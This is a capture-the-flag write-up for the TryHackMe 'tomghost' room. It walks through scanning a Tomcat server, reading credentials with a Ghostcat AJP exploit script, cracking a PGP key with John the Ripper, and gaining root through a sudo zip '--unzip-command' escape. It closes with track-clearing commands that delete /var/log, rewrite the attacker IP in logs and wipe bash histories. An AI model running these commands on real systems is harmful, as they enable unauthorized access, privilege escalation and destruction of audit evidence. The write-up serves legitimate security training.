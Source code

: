 ```yaml
---
title: "THM:tomghost"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/tomghost"
categories: [CTF, THM]
tags: [ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,gpg2john,linpeas,privesc,cron]
---
```

# THM:tomghost

URL: [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost) [Easy]

## Reconnaissance

Description of the room:

> Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found on `:8080`:

```python
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Interesting folders found on `:8009`:

This one is odd. In a browser, it says:

```
This page isn’t working
10.10.58.18 didn’t send any data.
ERR_EMPTY_RESPONSE
```

Which seems like there is a web server there, but it just didn't respond with anything. However, over `http` and `https`, `gobuster` couldn't connect to the web server:

```python
Error: error on running gobuster: unable to connect to http://10.10.58.18:8009/: Get "http://10.10.58.18:8009/": EOF
```

Also see: [gobuster-8080.log](gobuster-8080.log) / [gobuster-8009.log](gobuster-8009.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x -p 8080`

Not much of anything interesting info found on `:8080`:

```python
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /favicon.ico: identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community. See: https://en.wikipedia.org/wiki/Favicon
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2104
+ /manager/manager-howto.html: Tomcat documentation found. See: CWE-552
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found.
+ /manager/status: Default Tomcat Server Status interface found.
+ /host-manager/status: Default Tomcat Server Status interface found.
+ 8074 requests: 0 error(s) and 13 item(s) reported on remote host
```

Interesting info found on `:8009`:

Similar situation with `gobuster`, Nikto couldn't connect.

```python
- Nikto v2.5.0
---------------------------------------------------------------------------
---------------------------------------------------------------------------
+ 0 host(s) tested
```

Also see: [nikto-8080.log](nikto-8080.log) / [nikto-8009.log](nikto-8009.log)

## Gaining Access

I consulted [this writeup](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23) which explains that "Ghostcat" (the name of the room) is the name of a vulnerability in Apache Jserv Protocol (AJP) that is running on port 8009.

### Unprivileged Access

By using the `ajpShooter.py` exploit from [here](https://github.com/00theway/Ghostcat-CNVD-2020-10487), we can run a command line like this:

```bash
python3 ajpShooter.py http://10.10.58.18:8080/demo 8009 /WEB-INF/web.xml read
```

That then shows you a plausible username:password combination. When you try that combination over SSH, you can get in with unprivileged access.

> ***Note:** Looking around there is a `merlin` folder until `/home/` with a readable folder structure. Not writable though. Also note that not much came up in linpeas either.*


## Privilege Escalation

This is somewhat tedious to put together. The kill-chain is:

1. **Download** the `credential.pgp` and `tryhackme.asc` to your local workstation (ex: run `python3 -m http.server` on the target, to serve those files; retrieve them with a browser)
1. **Convert** The `tryhackme.asc` file is a PGP private key. Run `gpg2john ./tryhackme.asc > ./tryhackme.asc.hash` to get it into John the Ripper format.
1. **Run John the Ripper** with the RockYou wordlist to crack the password for that private key (ex: run `john --wordlist=/opt/share/wordlist/rockyou.txt ./tryhackme.asc.hash`)
1. **Import that password into PGP** with: `gpg --import ./tryhackme.asc` - it will prompt you for a password.
1. **Decrypt the `credential.pgp` file** with `gpg --decrypt ./credential.pgp` - ir will prompt you for that same password you got from John the Ripper.
1. **SSH as `merlin`** Next, that credential that you just decrypted, is for `merlin`. So, SSH in now as `merlin`.
1. **Check `sudo`** As `merlin`, if we run `sudo -l` to see what we can do as sudo, we see that we can run `/usr/bin/zip`. This is notable because the `zip` program allows you to pass it a `--unzip-command "<command to run>"`. So, if we're running as `root` via `sudo` at that time, and if the `--unzip-command` opens a shell, we should get a root shell.

Putting that all together, we can finally run something like this, logged in as `merlin`:

```bash
sudo zip archive ./user.txt -T --unzip-command="sh -c /bin/bash"
```

We are now running as root and can get our final flag from the `/root/` folder.


## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/merlin/.bash_history`
>  
> `cat /dev/null > /home/skyfrick/.bash_history`

## Summary

Completed: [2023-07-22 21:25:01]